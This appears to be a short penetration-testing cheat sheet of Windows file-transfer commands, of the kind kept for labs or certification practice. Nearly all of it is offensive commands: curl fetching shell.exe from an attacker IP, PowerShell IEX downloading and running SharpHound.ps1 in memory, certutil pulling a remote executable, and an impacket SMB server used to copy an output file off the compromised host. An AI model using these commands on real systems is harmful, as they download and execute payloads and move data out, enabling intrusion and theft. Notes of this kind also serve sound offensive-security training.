 
# CURL
```shell
PS C:\xampp\htdocs> curl http://192.168.45.246/shell.exe -o shell.exe
```


# IEX
```shell
IEX(New-Object Net.WebClient).downloadString('http://10.10.16.7/SharpHound.ps1')
```


# CERTUTIL
```SHELL
certutil.exe -f -urlcache -split http://192.168.45.192/auditTracker.exe
```


# COPY
```shell
❯ sudo impacket-smbserver smbFolder $(pwd) -smb2support
PS C:\Windows\Temp\peas> copy output.txt \\192.168.45.189\smbFolder\output.txt
```


